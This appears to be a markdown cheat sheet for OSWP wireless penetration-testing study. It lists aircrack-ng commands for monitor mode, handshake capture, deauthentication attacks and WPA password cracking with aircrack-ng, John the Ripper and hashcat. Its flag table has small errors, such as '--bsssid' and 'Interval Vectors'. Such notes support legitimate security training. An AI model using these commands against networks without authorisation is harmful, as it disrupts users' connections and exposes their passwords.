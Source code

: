 # OSWP

## Aircrack-ng 
### Packet sniffer, network detector, frame injection, cracks WEP and WPA-PSK 
```
sudo airmon-ng check
sudo airmon-ng check kill

sudo /usr/sbin/airmon-ng
sudo airmon-ng start wlan0
sudo airmon-ng start wlan0 [channel #]
sudo airmon-ng stop wlan0
iw wlan0 info
iwconfig
ifconfig

```

## Airodump-ng 
### WEP, WPA/WPA2
#### Don't forget to specify interface
```
sudo airodump-ng wlan0mon -c 2
sudo airodump-ng -c 3 --bssid 34:08:04:09:3D:38 -w 1.cap
```
|CMD|DESC|
|-----|-----|
|-w|output filename| 
|--bsssid|specific BSSID|
|--essid|specific ESSID|
|-c|channel|
|-g|GPS|
|--ivs| Interval Vectors
|-R|Regular Expression|

## Aireplay-ng
### Generate wireless traffic, deauths, WEP
#### Set card to channel [3]
```
sudo airmon-ng start wlan0 3 
```
### Deauth
```
sudo aireplay-ng -0 10 -a 34:08:04:09:3D:38 wlan0mon
```
|CMD|DESC|
|-----|-----|
-0 |# deauths
-a|BSSID
-c|client MAC

## Aircrack-ng
### Cracking Hashes
```
aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap
```
### John the Ripper
```
$ john --format=netntlm timothy --wordlist=/usr/share/wordlists/rockyou.txt
```
### Hashcat
```
$ hashcat -m [hashtype] [hash] [dictionary]
```
## Useful Linux Commands
```
scp kali@192.168.10.94:/home/kali/1.cap-01.cap .
gzip -d file .gz
```
